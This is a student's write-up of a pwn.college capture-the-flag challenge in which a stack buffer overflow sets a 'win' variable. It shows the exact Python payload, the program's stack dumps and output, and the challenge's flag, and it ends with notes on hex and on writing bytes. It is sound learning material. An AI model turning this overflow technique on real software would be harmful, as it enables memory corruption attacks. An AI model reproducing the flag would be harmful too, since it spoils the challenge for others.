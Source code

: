 # Binary Exploitation 

## Challenge: Variable Control (easy)
### Solve 
In this challenge, you must overflow the buffer precisely to set a win condition variable to a specific value.  

**Flag:** `pwn.college{Y2PlDYPuf2N3Bi3nQgFIN-voDpX.QX3UzMzwyMwAzNzEzW}`

METHOD:  
1. find file name in ls /challenge
2. execute the executable file /challenge/filename
3. It says:
   In this level, there is a "win" variable.  
By default, the value of this variable is zero.  
However, if you can set variable to 0x679b4be5, the flag will be printed.  
You can change this variable by overflowing the input buffer, but keep endianness in mind!  
The "win" variable is stored at 0x7fff8445559c, 28 bytes after the start of your input buffer.
4. So, buffer till 28 bytes then overwrite the win variable to that to get the flag
5. write a python code feeding the bytes and then pipe it's output to stdin of teh .c file
6. python3 - <<'PY' | /challenge/binary-exploitation-var-control-w   
import sys  
sys.stdout.buffer.write(b"A"*28 + b"\xe5\x4b\x9b\x67")  
PY  


```bash
hacker@binary-exploitation~variable-control-easy:~$ python3 - <<'PY' | /challenge/binary-exploitation-var-control-w
import sys
sys.stdout.buffer.write(b"A"*28 + b"\xe5\x4b\x9b\x67")
PY
The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007fffa9bea410 (rsp+0x0000) | 00 10 00 00 00 00 00 00 | 0x0000000000001000 |
| 0x00007fffa9bea418 (rsp+0x0008) | b8 b5 be a9 ff 7f 00 00 | 0x00007fffa9beb5b8 |
| 0x00007fffa9bea420 (rsp+0x0010) | a8 b5 be a9 ff 7f 00 00 | 0x00007fffa9beb5a8 |
| 0x00007fffa9bea428 (rsp+0x0018) | 00 00 00 00 01 00 00 00 | 0x0000000100000000 |
| 0x00007fffa9bea430 (rsp+0x0020) | a0 64 3e c5 dc 71 00 00 | 0x000071dcc53e64a0 |
| 0x00007fffa9bea438 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fffa9bea440 (rsp+0x0030) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fffa9bea448 (rsp+0x0038) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fffa9bea450 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fffa9bea458 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fffa9bea460 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fffa9bea468 (rsp+0x0058) | 00 03 9a b5 8c 32 b1 9a | 0x9ab1328cb59a0300 |
| 0x00007fffa9bea470 (rsp+0x0060) | b0 b4 be a9 ff 7f 00 00 | 0x00007fffa9beb4b0 |
| 0x00007fffa9bea478 (rsp+0x0068) | 1a 1e 40 00 00 00 00 00 | 0x0000000000401e1a |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7fffa9bea410, and our base pointer points to 0x7fffa9bea470.
This means that we have (decimal) 14 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 112 bytes.
The input buffer begins at 0x7fffa9bea440, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 27 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is a "win" variable.
By default, the value of this variable is zero.
However, if you can set variable to 0x679b4be5, the flag will be printed.
You can change this variable by overflowing the input buffer, but keep endianness in mind!
The "win" variable is stored at 0x7fffa9bea45c, 28 bytes after the start of your input buffer.

 But be careful! There is also a LOSE variable. If this variable ends up non-zero, the program will terminate and you
will not get the flag. Be careful not to overwrite this variable.

The "lose" variable is stored at 0x7fffa9bea460, 32 bytes after the start of your input buffer.

We have disabled the following standard memory corruption mitigations for this challenge:
- the binary is *not* position independent. This means that it will be
located at the same spot every time it is run, which means that by
analyzing the binary (using objdump or reading this output), you can
know the exact value that you need to overwrite the return address with.

You have chosen to send 4096 bytes of input!
This will allow you to write from 0x7fffa9bea440 (the start of the input buffer)
right up to (but not including) 0x7fffa9beb440 (which is 4069 bytes beyond the end of the buffer).
Send your payload (up to 4096 bytes)!
You sent 32 bytes!
Let's see what happened with the stack:

+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007fffa9bea410 (rsp+0x0000) | 00 10 00 00 00 00 00 00 | 0x0000000000001000 |
| 0x00007fffa9bea418 (rsp+0x0008) | b8 b5 be a9 ff 7f 00 00 | 0x00007fffa9beb5b8 |
| 0x00007fffa9bea420 (rsp+0x0010) | a8 b5 be a9 ff 7f 00 00 | 0x00007fffa9beb5a8 |
| 0x00007fffa9bea428 (rsp+0x0018) | 00 00 00 00 01 00 00 00 | 0x0000000100000000 |
| 0x00007fffa9bea430 (rsp+0x0020) | a0 64 3e c5 20 00 00 00 | 0x00000020c53e64a0 |
| 0x00007fffa9bea438 (rsp+0x0028) | 00 10 00 00 00 00 00 00 | 0x0000000000001000 |
| 0x00007fffa9bea440 (rsp+0x0030) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fffa9bea448 (rsp+0x0038) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fffa9bea450 (rsp+0x0040) | 41 41 41 41 41 41 41 41 | 0x4141414141414141 |
| 0x00007fffa9bea458 (rsp+0x0048) | 41 41 41 41 e5 4b 9b 67 | 0x679b4be541414141 |
| 0x00007fffa9bea460 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007fffa9bea468 (rsp+0x0058) | 00 03 9a b5 8c 32 b1 9a | 0x9ab1328cb59a0300 |
| 0x00007fffa9bea470 (rsp+0x0060) | b0 b4 be a9 ff 7f 00 00 | 0x00007fffa9beb4b0 |
| 0x00007fffa9bea478 (rsp+0x0068) | 1a 1e 40 00 00 00 00 00 | 0x0000000000401e1a |
+---------------------------------+-------------------------+--------------------+
The program's memory status:
- the input buffer starts at 0x7fffa9bea440
- the saved frame pointer (of main) is at 0x7fffa9bea470
- the saved return address (previously to main) is at 0x7fffa9bea478
- the saved return address is now pointing to 0x401e1a.
- the canary is stored at 0x7fffa9bea468.
- the canary value is now 0x9ab1328cb59a0300.
- the address of the win variable is 0x7fffa9bea45c.
- the value of the win variable is 0x679b4be5.
- the address of the lose variable is 0x7fffa9bea460.
- the value of the lose variable is 0x0.

You win! Here is your flag:
pwn.college{Y2PlDYPuf2N3Bi3nQgFIN-voDpX.QX3UzMzwyMwAzNzEzW}


Goodbye!
```


### New Learnings
1. 0x = this number is in hexadecimal (base 16)  
ex: ff in hex = 15*16 + 15 = 255 in decimal.  
In binary 0xff = 11111111
2. Why hex is useful: one hex digit represents 4 bits. Two hex digits (00–ff) represent exactly one byte (8 bits).
3. Common building blocks:-  
a) repeat a byte N times: b"A"*96 (# 96 ASCII 'A' bytes (0x41))
b) literal hex bytes: b"\x01\x02\xff"      # three bytes: 0x01 0x02 0xff
4. sys.stdout.buffer  
Accesses the raw binary interface of stdout.  
Lets you write bytes instead of text strings.
5. sys.stdout.buffer.write(data)  
Writes binary data (data must be of type bytes) directly to stdout.  
   



### References
Chatgpt for help with python part.  
